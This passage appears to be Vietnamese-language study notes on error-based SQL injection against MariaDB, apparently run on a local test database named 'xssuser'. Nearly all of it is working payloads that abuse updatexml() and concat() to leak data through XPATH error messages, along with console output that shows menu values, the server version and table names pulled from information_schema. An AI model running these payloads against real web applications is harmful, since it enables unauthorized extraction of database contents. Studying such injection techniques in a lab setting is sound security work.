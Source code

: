   - Lấy ra tên các *column* dựa trên các *table*

  - Payload 5:

    ```mysql
    select * from menu where id = 1 and updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),NAME_MENU,CHAR(126)) FROM menu LIMIT 0,1)),null)
    ```

    ```mysql
    MariaDB [xssuser]> select * from menu where id = 1 and updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),NAME_MENU,CHAR(126)) FROM menu LIMIT 0,1)),null);
    ERROR 1105 (HY000): XPATH syntax error: ':~Menu 2~'
    MariaDB [xssuser]> select * from menu where id = 1 and updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),NAME_MENU,CHAR(126)) FROM menu LIMIT 1,1)),null);
    ERROR 1105 (HY000): XPATH syntax error: ':~Menu 4~'
    MariaDB [xssuser]> select * from menu where id = 1 and updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),NAME_MENU,CHAR(126)) FROM menu LIMIT 2,1)),null);
    ERROR 1105 (HY000): XPATH syntax error: ':~Menu 5~'
    MariaDB [xssuser]> select * from menu where id = 1 and updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),NAME_MENU,CHAR(126)) FROM menu LIMIT 3,1)),null);
    ERROR 1105 (HY000): XPATH syntax error: ':~Menu 6~'
    ```

    

- Có thể rút gọn các *payload* thành

  - Payload:

    ```mysql
    select * from menu where id = 1 AND updatexml(null,concat(0x0a,version()),null)
    ```

    ```mysql
    MariaDB [xssuser]> select * from menu where id = 1 AND updatexml(null,concat(0x0a,version()),null);
    ERROR 1105 (HY000): XPATH syntax error: '
    10.1.41-MariaDB-0ubuntu0.18.04.'
    ```

  - Payload:

    ```mysql
    select * from menu where id = 1 AND updatexml(null,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() LIMIT 0,1)),null)
    ```

    ```mysql
    MariaDB [xssuser]> select * from menu where id = 1 AND updatexml(null,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() LIMIT 0,1)),null);
    ERROR 1105 (HY000): XPATH syntax error: '
    menu'
    MariaDB [xssuser]> select * from menu where id = 1 AND updatexml(null,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() LIMIT 1,1)),null);
    ERROR 1105 (HY000): XPATH syntax error: '
    user'
    ```
